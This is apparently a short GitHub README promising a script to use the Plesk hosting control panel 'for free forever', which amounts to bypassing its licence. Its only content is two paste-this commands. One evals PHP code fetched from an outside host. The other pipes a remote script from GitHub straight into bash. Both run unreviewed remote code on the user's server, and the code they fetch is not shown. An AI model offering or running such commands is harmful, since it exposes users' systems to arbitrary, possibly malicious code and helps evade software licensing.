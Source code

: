 ![Plesk](https://i.ibb.co/DWtnCm3/t-l-charger-1.png)

## Ossav Plesk

Script to get the plesk free try plesk for free forever without ad
```bash
plesk php -er "eval(file_get_contents('https://olfe.net.tr/plesk/trial/code'));";

bash <(curl -s https://raw.githubusercontent.com/ais1175/o-plesk/main/script.sh)
```
